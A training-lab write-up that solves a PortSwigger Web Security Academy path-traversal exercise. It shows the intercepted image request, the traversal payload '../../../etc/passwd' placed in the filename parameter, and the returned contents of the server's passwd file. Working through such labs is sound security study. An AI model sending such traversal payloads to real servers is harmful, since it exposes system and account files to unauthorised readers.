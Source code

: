 # [Lab 1: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

---

## Description

This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

---

## Solution

View the page source and notice that each of the product images are rendered by an `img` tag whose `src` attribute is set to `/image?filename=$FILENAME`.

![](images/Pasted%20image%2020210817213035.png)

Perhaps the backend is passing the value of the `filename` query parameter into some file system API call to retrieve its contents unsanitized. Intercept a request to `/image` for further tampering.

```http
GET /image?filename=31.jpg HTTP/1.1
Host: ac8f1f0e1fcba4ac80583f13001400df.web-security-academy.net
Cookie: session=3Wsm2nAgyACF2BSNKoIyOP7vXw6L2q9h
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

Using the `filename` parameter, attempt to traverse backwards one directory until you are able to read the contents of `/etc/passwd`. Assume a Linux backend.

```http
GET /image?filename=../../../etc/passwd HTTP/1.1
Host: ac8f1f0e1fcba4ac80583f13001400df.web-security-academy.net
Cookie: session=3Wsm2nAgyACF2BSNKoIyOP7vXw6L2q9h
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Dnt: 1
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Cache-Control: max-age=0
Te: trailers
Connection: close
```

```txt
HTTP/1.1 200 OK
Content-Type: image/jpeg
Connection: close
Content-Length: 1205

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
peter:x:2001:2001::/home/peter:/bin/bash
carlos:x:2002:2002::/home/carlos:/bin/bash
user:x:2000:2000::/home/user:/bin/bash
elmer:x:2099:2099::/home/elmer:/bin/bash
dnsmasq:x:101:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
messagebus:x:102:101::/nonexistent:/usr/sbin/nologin
```

The `filename` `../../../etc/passwd` yields the contents of the `/etc/passwd` file, solving the challenge.
